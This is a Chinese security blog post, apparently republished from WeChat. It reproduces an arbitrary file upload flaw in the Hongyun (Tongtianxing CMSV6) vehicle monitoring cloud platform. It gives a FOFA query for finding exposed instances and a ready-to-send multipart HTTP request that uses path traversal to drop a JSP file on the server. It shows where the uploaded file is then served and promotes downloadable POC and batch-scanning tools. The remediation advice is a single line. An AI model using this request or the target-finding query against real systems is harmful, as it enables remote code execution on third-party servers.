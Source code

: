#  鸿运(通天星CMSV6车载)主动安全监控云平台inspect_file/upload存在任意文件上传漏洞   
南风徐来  南风漏洞复现文库   2024-04-03 23:53  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 鸿运(通天星CMSV6车载)主动安全监控云平台inspect_file/upload简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
鸿运(通天星CMSV6车载)主动安全监控云平台实现对计算资源、存储资源、网络资源、云应用服务进行7*24小时全时区、多地域、全方位、立体式、智能化的IT运维监控，保障IT系统安全、稳定、可靠运行。  
## 2.漏洞描述  
  
鸿运主动安全监控云平台实现对计算资源、存储资源、网络资源、云应用服务进行7*24小时全时区、多地域、全方位、立体式、智能化的IT运维监控，保障IT系统安全、稳定、可靠运行。鸿运(通天星CMSV6车载)主动安全监控云平台存在任意文件上传漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
鸿运(通天星CMSV6车载)主动安全监控云平台  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfyDGZ359FCzfPGzRsgteVGtm0cdQzVIdqg4g22QeyKUyfILA6p8BBCOQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
鸿运(通天星CMSV6车载)主动安全监控云平台inspect_file/upload存在任意文件上传漏洞  
## 4.fofa查询语句  
  
body="./open/webApi.html"||body="/808gps/"  
## 5.漏洞复现  
  
漏洞链接：https://127.0.0.1/inspect_file/upload  
  
漏洞数据包：  
```
POST /inspect_file/upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 226
Content-Type: multipart/form-data; boundary=2e7688d712bcc913201f327059f9976b

--2e7688d712bcc913201f327059f9976b
Content-Disposition: form-data; name="uploadFile"; filename="../707140.jsp"
Content-Type: application/octet-stream

<% out.println("007319607"); %>
--2e7688d712bcc913201f327059f9976b--

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfy6fDqTmZTSXBtK9wkL43gWJFW35ytQSeEgWJQguTyMbJpu7K41jtWsw/640?wx_fmt=jpeg&from=appmsg "null")  
  
上传成功后，会返回路径  
  
 https://127.0.0.1/upload/software/1429273988861305_707140.jsp  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfyYiaRGf3y6KUAUGIIPdNbb912OicicSRpCYQUeicsW1hziaDHP0UVHKFZ5Aw/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现114 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfyvjdevWzlZXWkib95jpjePNa9NFEtjmCicte5m5jpNCDNb4KyUBgWJiaoQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfyw4d9zXmJq7BJDQ6qSpibiapulNeDicgsIwZDCb1wnu6ibAJ34l4DwU9RicQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfy1GNXxXUYF10SJoMibmibEqjxj5nxibwTbyrN7QIUMWn3Jnl7riad2Jt4Zw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfyoHoRIdFTFVYFWcWkSq6FLRl3oibq6LMZmV4uficnfmPJJUEdyNy8K2tw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfy9UOialtQtGcehWabic6QvUlJekSSaasBlW07BmqGcYhPofvIejAkAK9Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfytU9PT0ojicRtL1lCUm2ktEuAmazVZicMaAVGlp2ibvY6NezVlSf2stzyg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aF4ad5nuHyx6jleeRyicMfyPfmEs2IWEaiaPOkeqicc0on2Hpw3xKYK23icsZ7op4beenAK7CMPAqjoA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请联系厂商打补丁或者升级到最新版本。  
## 8.往期回顾  
  
[用友U8-Cloud FileServlet接口存在任意文件读取漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485971&idx=1&sn=1ff418faefa7d29d963287d2dcc9484f&chksm=974b8714a03c0e022db2152ca5aede423908c66bdc70e58877c80847c0d8455ad20f29c6fe25&scene=21#wechat_redirect)  
  
  
[联达OA UpLoadFile.aspx接口存在任意文件上传漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485971&idx=2&sn=1eb9e5a46400b4cc7397129578694b26&chksm=974b8714a03c0e028917c431a4e31adbf529ba070ed3891e9552754244925d36f50c95d18947&scene=21#wechat_redirect)  
  
  
  
  
